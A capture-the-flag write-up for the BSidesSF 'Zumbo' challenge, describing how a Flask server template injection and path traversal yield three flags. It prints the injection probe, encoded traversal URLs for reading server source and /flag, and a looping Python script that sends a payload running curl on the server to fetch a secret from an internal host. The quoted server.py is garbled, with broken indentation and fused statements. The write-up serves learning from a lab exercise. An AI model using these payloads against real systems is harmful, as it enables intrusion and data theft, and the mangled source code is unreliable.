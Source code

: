 # Zumbo 1/2/3

## Description

Welcome to ZUMBOCOM....you can do anything at ZUMBOCOM.

Three flags await. Can you find them?

http://zumbo-8ac445b1.ctf.bsidessf.net


## Solution

First of all: I spent about 2 hours to get all the three flags, the third one was nice because I've never exploited something like that, really liked this challenge!
Well, let's write the things!


### Zumbo1

The first part of the challenge was easy, at the bottom of the source code there was this:

```html
<!-- page: index.template, src: /code/server.py -->
```

My first thought was that could be a flask exploitation, and for my lucky, I was right! My first thought was that could be a flask exploitation, and for my lucky, I was right! I've already read a nice article about flask vulnerabilities [here](https://nvisium.com/blog/2015/12/07/injecting-flask/), but never needed to use it.

Confirming the vulnerability:

```
http://zumbo-8ac445b1.ctf.bsidessf.net/{{ 333+333 }}
```
This returns <b>666</b> which, means the server got our request, and now we can get more information, for example, the application's source code.

In this case, we had to encode the '/': http://zumbo-8ac445b1.ctf.bsidessf.net//..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fcode/server.py

```python
import flask, sys, os 
import requests 

app = flask.Flask(__name__) 
counter = 12345672 

@app.route('/') 
	def custom_page(page): 
		if page == 'favicon.ico': 
		return '' 
		
		global counter 
		counter += 1 
		
		try: 
			template = open(page).read() 
		except Exception as e: 
			template = str(e) template += "\n\n" % (page, __file__) 
			return flask.render_template_string(template, name='test', counter=counter); 
			
			
@app.route('/') def home(): 
	return flask.redirect('/index.template'); 
	if __name__ == '__main__': 
		flag1 = 'FLAG: FIRST_FLAG_WASNT_HARD' 
		
	with open('/flag') as f: 
	flag2 = f.read() 
		
	flag3 = requests.get('http://vault:8080/flag').text print "Ready set go!" 
	sys.stdout.flush() 
	
app.run(host="0.0.0.0")
```

Zumbo1 flag: FIRST_FLAG_WASNT_HARD


### Zumbo2

The second part of the challenge, was easy too. We just had to read the file called flag:

```
http://zumbo-8ac445b1.ctf.bsidessf.net//..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fflag
```

Zumbo2 flag: RUNNER_ON_SECOND_BASE


### Zumbo3

Now the cool part \o

As you can see above there's a local variable called flag3, I spent a long time trying to read this value. I was able to read the global counter, but not this one.

So, I started to think to make a request by myself and get the value instead of read the value of flag3. *(If someone knows how to do that, please tell me).*

In the same blog, there is another article where the author goes deeper in flask vulnerablity: https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/

Following these steps, I was able to execute commands in the server, but how can I get the flag? At this time, I was receiveng Internal Server Error from time in time, so I decided to kinda of bruteforce a request with curl to get the flag:

```python
import requests

while True:
        r  = requests.get("http://zumbo-8ac445b1.ctf.bsidessf.net/{{ config['RUNCMD']('/usr/bin/curl http://vault:8080/flag',shell=True)%20%7D%7D")
        if r.status_code == 200:
                print(r.text)
                exit()
```

![1](1.png)

Zumbo3 flag: BRICK_HOUSE_BEATS_THE_WOLF